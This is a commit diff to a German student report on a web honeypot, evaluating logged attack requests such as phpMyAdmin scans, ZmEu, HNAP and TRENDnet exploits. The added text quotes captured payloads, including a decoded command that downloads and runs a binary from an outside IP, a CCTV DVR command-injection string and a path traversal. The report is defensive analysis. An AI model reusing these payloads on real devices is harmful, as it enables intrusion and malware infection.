

Before and after one commit to dschwenk/Sysadmin, a LaTeX book (Dokumentation/Dokumentation/00_Dokumentation.tex, which reads Dokumentation/Dokumentation/08_evaluation.tex): part of page 40 of 56 before the commit and two parts of pages 40 and 41 of 60 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
added presenation + final doku

```diff
--- a/Dokumentation/Dokumentation/08_evaluation.tex
+++ b/Dokumentation/Dokumentation/08_evaluation.tex
@@ -41,35 +41,45 @@ Die im folgenden Abschnitt getroffenen Aussagen basieren auf Vermutungen, die du
 
 61 Aufrufe des Root-Pfades der Webseite lassen darauf schließen, dass der Honeypot tatsächlich von circa 61 unterschiedlichen Systemen aufgerufen wurde. Auch die 14 Anfragen mit dem Ziel die Ressource 'favicon.ico' zu laden, lassen einen Rückschluss zu.  Bei dieser Ressource handelt es sich um ein Miniatur-Bild, ein Logo einer Webseite, das innerhalb eines Browser-Tabs der URI vorangestellt wird und im Wesentlichen der Repräsentation und Wiedererkennung dient. Das Anfordern dieser Ressource ist eine Eigenheit von verbreiteten Browsern, so lässt sich daraus schließen, dass es tatsächlich annähernd 14 manuell durchgeführte Aufrufe des Webhoneypots unter Verwendung eines Browsers gab. Da das Projektteam zu diesem Zeitpunkt bereits im Rahmen der Veröffentlichung dieser Dokumentation die IP-Adresse des Honeypots öffentlich gemacht hat, ist die Möglichkeit nicht auszuschließen, dass diese Zugriffe dieser Veröffentlichung zuzuschreiben sind und sonst möglicherweise nicht stattgefunden hätten.\\
 
-Die wenig ansprechende Optik, der Mangel an Inhalten und Angriffsflächen in Form von Eingabefeldern der während dieses Zeitraums aktiven Weboberfläche des Honeypots, lassen darauf schließen, dass der Großteil der aufgezeichneten Zugriffe und Zugriffsversuche automatisiert stattgefunden hat. Dafür sprechen auch 5 Zugriffe auf die Datei 'robots.txt', die insbesondere von gutartigen aber auch bösartigen Bots, so genannten Webcrawlern, die das Internet automatisiert nach Inhalten durchsuchen, ausgewertet wird. So ist es eine gängige Praxis diese Datei nach Einträgen mit vorangestelltem 'disallow' zu durchsuchen, welche Pfade zu Ressourcen angibt, welche von einem solchen Webcrawler auf Wunsch des Administrators nicht betrachtet werden sollen. Gerade diese Vorgabe macht es für Angreifer interessant, genau diese, vom Administrator nicht zur Durchsicht erwünschten, Ressourcen aufzurufen und zu analysieren. 5 Zugriffsversuche auf die Webanwendung phpMyAdmin\footnote{ \textit{phpMyAdmin}: \url{https://www.phpmyadmin.net/}} lassen darauf schließen,
+Die wenig ansprechende Optik, der Mangel an Inhalten und Angriffsflächen in Form von Eingabefeldern der während dieses Zeitraums aktiven Weboberfläche des Honeypots, lassen darauf schließen, dass der Großteil der aufgezeichneten Zugriffe und Zugriffsversuche automatisiert stattgefunden hat. Dafür sprechen auch 5 Zugriffe auf die Datei 'robots.txt', die insbesondere von gutartigen aber auch bösartigen Bots, so genannten Webcrawlern, die das Internet automatisiert nach Inhalten durchsuchen, ausgewertet wird. So ist es eine gängige Praxis diese Datei nach Einträgen mit vorangestelltem 'disallow' zu durchsuchen, welche Pfade zu Ressourcen angibt, welche von einem solchen Webcrawler auf Wunsch des Administrators nicht betrachtet werden sollen. Gerade diese Vorgabe macht es für Angreifer interessant, eben selbige, vom Administrator nicht zur Durchsicht erwünschten, Ressourcen aufzurufen und zu analysieren.\\
 
+Desweiteren konnten 5 Zugriffsversuche auf die Webanwendung phpMyAdmin\footnote{ \textit{phpMyAdmin}: \url{https://www.phpmyadmin.net/}}, die bei unserem Honeypot nicht zum Einsatz kam, aber sehr häufig genutzt wird, festgestellt werden. Diese Angriffe ebenso wie der versuchte Aufruf von '/w00tw00t.at.blackhats.romanian.anti-sec:)' deuten auf einen durch Bots durchgeführten Angriff hin. So ist es insbesondere aufgrund dieses Eintrages anzunehmen, dass ein Bot namens ZmEu\footnote{ \textit{ZmEu}: \url{https://ensourced.wordpress.com/2011/02/25/zmeu-attacks-some-basic-forensic/}} dafür verantwortlich ist. Entsprechend der hier gemachten Erfahrungen, ist phpMyAdmin eine Webanwendung, die es im realen Einsatz besonders zu schützen gilt, da diese ein beliebtes Ziel für Angriffe zu sein scheint. Für das Projektteam würde es sich für zukünftige Honeypot lohnen, phpMyAdmin zu simulieren, um genauere Kenntnisse über stattfindende Angriffe erlangen zu können.\\
 
-Login-Formular nicht mehr relevant, nach Updates SNARE instabil.
+Insgesamt wurden über 30 Versuche geloggt, deren Ziel es war auf Login-Seiten zu gelangen. Das unterstreicht noch einmal die Erkenntnisse des Projektteams, die im Rahmen des Betriebs des SSH-Honeypots gemacht wurden, was die Bedeutung sicherer Passwörter anbelangt. Aufgrund dieser Zugriffsversuche hat sich das Projektteam dazu entschlossen, den Webhoneypot um ein Login-Formular zu erweitern.
+Nach der Durchführung eines SNARE Updates war es dem Projektteam allerdings nicht mehr möglich den Webhoneypot erneut in Betrieb zu nehmen und somit konnten während dieser Phase keine weiteren Angriffe geloggt werden.\\
 
+Auch ein einzelner Eintrag ist an dieser Stelle erwähnenswert, verdeutlicht er doch die Breite des Spektrums, in der Angriffe stattfinden: Der Zugriffsversuch '/HNAP1' zielt auf eine Schwachstelle\footnote{ \textit{Schwachstellen von HNAP}: \url{https://isc.sans.edu/forums/diary/More+on+HNAP+What+is+it+How+to+Use+it+How+to+Find+it/17648/}} in der Implementierung des Home Network Administration Protocols(HNAP) unter anderem bei D-Link\footnote{ \textit{D-Link}: \url{http://www.dlink.com/de/de}}, aber auch anderen Routern hin.\\
 
-5 phpmyadmin (MySQL verwaltung)Aufrufe -> Hätte sich gelohnt etwas entsprechendes zu simulieren
--> Botnetz
--> Bot sucht Schwachstellen in phpmyadmin -> https://ensourced.wordpress.com/2011/02/25/zmeu-attacks-some-basic-forensic/
-http://stateofsecurity.com/?p=467
--> viele geskriptete Attacken auf phpmyadmin -> hohe Sicherheitsmaßnahmen nötig bei Vernwendung von phpmyadmin
--> http://sharadchhetri.com/2013/06/27/protect-from-w00tw00t-at-blackhats-romanian-anti-sec/
+'./stssys.htm' zählt auch zu der Kategorie einzigartig. So handelt es sich bei dieser Anfrage um den Versuch eine Schwachstelle\footnote{ \textit{Schwachstelle TRENDnet Printserver}: \url{https://neonprimetime.blogspot.de/2016/08/stssyshtm-wget-request.html}} bei TRENDnet Printservern auszunutzen, mit der Folge das betroffene Gerät auf Werkseinstellungen zurücksetzen und somit die IP-Adresse des Gerätes neu zu vergeben.\\
 
-Insgesamt über 30 Versuche auf Login-Flächen zu gelangen oder Passwörter abzurufen -> Wichtigkeit sicherer Passwörter
+Erst durch die Umwandlung von der hexadezimalen Schreibweise in ASCII offenbart sich
 
-HNAP  014, the HNAP was succesfully exploited by The Moon worm
+\begin{lstlisting}[style=customc]
+/shell?\%63\%64\%20\%2F\%74\%6D\%70\%3B\%77\%67\%65\%74\%20\%2D\%63\%20\%68\%74\%74\%70\%3A\%2F\%2F\%31\%32\%32\%2E\%31\%31\%34\%2E\%32\%35\%33\%2E\%39\%34\%3A\%31\%35\%35\%32\%31\%2F\%61\%72\%6D\%67\%67\%3B\%63\%68\%6D\%6F\%64\%20\%37\%37\%37\%20\%61\%72\%6D\%67\%67\%3B\%2E\%2F\%61\%72\%6D\%67\%67\%20\%26
+\end{lstlisting}
 
-http://stateofsecurity.com/?p=467
-   1 Request path: /nmaplowercheck1480791133
-   1 Request path: /nice%20ports%2C/Tri%6Eity.txt%2ebak
-   portscan mit nmap
+ als das was er wirklich ist:
 
-w00tw00t -> This is just an automatic script deployed by many Script Kiddies looking for a security breach in your apache version/configuration. The signature w00tw00t is usually left by DFind.
+\begin{lstlisting}[style=customc]
+cd /tmp;wget -c http://122.114.253.94:15521/armgg;chmod 777 armgg;./armgg \&
+\end{lstlisting}
 
-./stssys.htm -> https://neonprimetime.blogspot.de/2016/08/stssyshtm-wget-request.html
+Über einen 'wget' wird versucht die Ressource 'armgg' von einer IP-Adresse herunterzuladen und gegebenenfalls unterbrochene Downloads, durch den Parameter '-c' für continue, fortzusetzen. 'armgg' soll durch 'chmod 777' von Jedermann gelesen, verändert oder ausgeführt werden können und daraufhin als Hintergrundprozess gestartet werden. Zu gegebener Zeit wird das Projektteam versuchen, diese Datei herunterzuladen und in einer gesicherten Umgebung betrachten.\\
 
-Schlussfolgerung aufgrund von Aufmachung(zunächst example-Klon, danach schäbiges Login-Formular) -> Großteil der Angriffe automatisiert
+Noch ausgefallener ist dieser Angriff:
 
--> Man hätte noch IP-Adressen auswerten können indem man python-file von SNARE editiert hätte -> Zeitgründe
+\begin{lstlisting}[style=customc]
+/language/Swedish\${IFS}\&\&echo\${IFS}610cker>qt\&\&tar\${IFS}/string.js
+\end{lstlisting}
 
+Ziel dieses Angriffs ist es, eine Reverse-Shell auf Überwachungskameras zu erzeugen. Auf Kerneronsec\footnote{ \textit{Kerneronsec Remote Code Execution in CCTV-DVR}: \url{http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html}} wird die Vorgehensweise genau beschrieben. Der Aufruf von
 
-Sample one:
+\begin{lstlisting}[style=customc]
+/../../../../../../../mnt/mtd/qt
+\end{lstlisting}
+ ist auch Teil dieses Angriffs.\\
+
+Zu guter Letzt ist es auch erwähnenswert, dass auch ein Portscan, hier mit nmap, Spuren\footnote{ \textit{Spuren eines nmap Port-Scans}: \url{http://stateofsecurity.com/?p=467 }} in den Log-Files eines Webservers hinterlässt, so sind die Einträge
+
+\begin{lstlisting}[style=customc]
+/nmaplowercheck1480791133' und /nice\%20ports\%2C/Tri\%6Eity.txt\%2ebak
```
Also changed, not shown: Dokumentation/Dokumentation/00_titel.tex (+2 -2 lines), Dokumentation/Dokumentation/04_marktanalyse.tex (+1 -1 lines), Dokumentation/Dokumentation/06_auswahl.tex (+1 -1 lines), Dokumentation/Dokumentation/09_fazit.tex (+2 -2 lines), Dokumentation/Dokumentation/99_anhang.tex (+24 -0 lines), Dokumentation/Dokumentation/00_Dokumentation.pdf (deleted), Dokumentation/Dokumentation/Dokumentation Umsetzung eines Honeypots - Michael Stroh + Daniel Schwenk.pdf (added), Präsentation/Bilder/geo_ip_world.png (added), Präsentation/Bilder/kippo_log.png (added), Präsentation/Bilder/kippo_log1.png (added), Präsentation/Bilder/kippo_log_malware.png (added), Präsentation/Bilder/kippo_log_malware2.png (added), Präsentation/Bilder/kippo_log_malware3.png (added), Präsentation/Bilder/malware_log.png (added), 4 more files, 1 other file.
